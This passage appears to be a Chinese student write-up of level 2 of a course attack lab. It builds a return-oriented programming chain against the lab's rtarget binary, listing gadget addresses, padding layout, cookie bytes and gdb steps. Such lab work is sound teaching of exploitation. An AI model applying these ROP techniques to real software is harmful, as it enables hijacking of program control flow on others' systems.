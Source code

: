 ```
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 2d 06 00 00       	callq  401e6f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>

```
建立level2答案文件rtarget_l2.txt


用以下命令将rtarget_l2.txt 转换为rtarget_l2-raw.txt --保存输入getbuf()的字符串

```
./hex2raw < rtarget_l2.txt > rtarget_l2-raw.txt

```
首先在touch2()中设置断点

```
break *0x4017fc

```
输入 

run -q < rtarget_l2-raw.txt 

```
run -q < rtarget_l2-raw.txt 
```
打印出cookie的值 8个字节

```
x/8xb 0x6054e4 
0x6054e4 <cookie>:	0xfa	0x97	0xb9	0x59	0x00	0x00	0x00	0x00

```
这里gadget的思路就是在原来的代码中截取有用的片段，通过输入字符串以实现调用这些代码段的功能，原因是stack在ret之后%rsp指向的位置就是代码要跳转的地址
通过设置这些地址，就可以调用地址对应的代码

根据提示，可以使用popq 操作，将栈顶的值pop到一个寄存器中，查找代码发现如下代码中58(popq %rax) 90(nop) c3(ret)是我们需要的，所以首先跳转到4019ab

在输入字符串中的顺序为ab 19 40 00 00 00 00 00(注意这个是ret后$rsp指向的位置，所以这八个字节要加到前0x28个字节之后)

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq

```
接下来，既然要pop，所以将cookie的值复制到接下来的8个字节fa 97 b9 59 00 00 00 00

接下来，将%rax复制给%rdi，应为touch2()中比较的就是%rdi和cookie，发现如下代码48 89 c7(mov %rax %rdi) 90(nop) c3(ret)符合要求

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq 

```
所以跳转到4019c5

